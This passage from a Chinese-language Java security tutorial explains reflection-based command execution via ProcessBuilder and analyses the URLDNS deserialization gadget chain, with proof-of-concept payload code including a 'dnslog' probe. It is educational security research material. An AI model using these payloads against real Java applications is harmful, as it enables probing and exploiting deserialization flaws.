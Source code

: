 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108172216070.png-water_print](assets/1699411738-94c07cfbf22ab62dbd92d99e47941393.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108172216070.png-water_print")

传给 `ProcessBuilder` 的也是一个可变长参数，二者叠加为一个二维数组，所以整个 Payload 如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```java<br>Class clazz = Class.forName("java.lang.ProcessBuilder");<br><br>clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance(new String[][]{{"open", "/System/Applications/Calculator.app"}}));<br>``` |

### [](#37-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%B8%8E%E5%8F%8D%E5%B0%84)3.7 反序列化漏洞与反射

在安全研究中，使⽤反射的⼀⼤⽬的，就是绕过某些沙盒。比如，上下文中如果只有 Integer 类型的数字，如何获取到可以执行命令的 Runtime 类：

比如可以这样（伪代码）：`1.getClass().forName("java.lang.Runtime")`

## [](#4-dnsurl-gadget-%E5%88%86%E6%9E%90)4 DNSURL gadget 分析

### [](#41-%E8%B0%83%E7%94%A8%E9%93%BE)4.1 调用链

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```fallback<br> *     HashMap.readObject()<br> *       HashMap.putVal()<br> *         HashMap.hash()<br> *           URL.hashCode()<br>``` |

payload：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```java<br>HashMap ht = new HashMap(); <br>URL u = new URL("dnslog");<br>// 这里在序列化时不发送请求，防止在反序列化探测时误判<br>Class c = u.getClass();<br>Field f = c.getDeclaredField("hashCode");<br>f.setAccessible(true);<br>f.set(u, 1234);<br>ht.put(u, "Geekby");<br>// 把 hashcode 改为 -1，还原<br>f.set(u, -1);<br>``` |

### [](#42-%E5%88%86%E6%9E%90)4.2 分析

首先查看 HashMap 的 ReadObject 方法

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108252101230.png-water_print](assets/1699411738-9f2f21013d801277187a328d8317de17.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108252101230.png-water_print")
